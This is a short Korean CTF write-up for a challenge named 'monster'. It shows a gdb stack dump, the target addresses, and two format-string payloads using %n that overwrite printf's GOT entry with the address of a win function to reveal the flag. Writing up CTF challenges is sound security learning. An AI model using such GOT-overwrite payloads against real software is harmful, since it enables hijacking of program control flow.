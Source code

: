 # monster

본 문제는 `printf(s)`의 형식으로 사용하여 FSB 취약점이 발생하는 문제입니다. 다만 s가 bss영역에 쓰여지기 때문에 double stage FSB를 발생합니다.



win함수의 주소 : 0x080485bd

printf함수의 got : 0x804a00c



```python
gdb-peda$ x/100wx $esp
0xffffcf80:	0x0804a060	0x00000032	0xf7fb35a0	0x0804875d
0xffffcf90:	0xf7fb33dc	0xffffcfb0	0x00000000	0xf7e1b647
0xffffcfa0:	0xf7fb3000	0xf7fb3000	0x00000000	0xf7e1b647
0xffffcfb0:	0x00000001	0xffffd044	0xffffd04c	0x00000000
0xffffcfc0:	0x00000000	0x00000000	0xf7fb3000	0xf7ffdc04
0xffffcfd0:	0x00000001	0x00000000	0xf7fb3000	0xf7fb3000
0xffffcfe0:	0x00000000	0x62d3a61d	0x5e20c80d	0x00000000
0xffffcff0:	0x00000000	0x00000000	0xffffd040	0xf7fd9000
0xffffd000:	0xf7fd92e4	0x00000001	0x00000000	0xf7ffd000
0xffffd010:	0x00000001	0x08048490	0x00000000	0x080484b1
0xffffd020:	0x08048747	0x00000001	0xffffd044	0x08048870
0xffffd030:	0x080488d0	0xf7fe8880	0xffffd03c	0xf7ffd918
0xffffd040:	0x00000001	0xffffd227	0x00000000	0xffffd257
0xffffd050:	0xffffd262	0xffffd274	0xffffd28a	0xffffd2bd
0xffffd060:	0xffffd2cc	0xffffd300	0xffffd310	0xffffd327
0xffffd070:	0xffffd338	0xffffd34c	0xffffd36f	0xffffd381

```





##### 과정

1. fsb를 이용하여 stack안의 적당한 포인터인 0xffffcfb0의 자리에 printf의 got로 값 modify

> %8x %8x %8x %8x %8x %8x %8x %134520780x %n : 0xffffcfb0의 값을 0x804a00c(printf의 got)으로 변경

2. double stage fsb를 이용하여 printf함수의 got를 win함수의 주소로 덮어서 익스

> %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %134514150x %n : printf의 got를 0x080485bd(win함수의 주소)로 변경




##### exploit

`python exploit.py | grep KCTF`

포맷스트링 버그라 출력되는게 엄청 많으니 다음과 같이 플래그만 출력시킬 것!
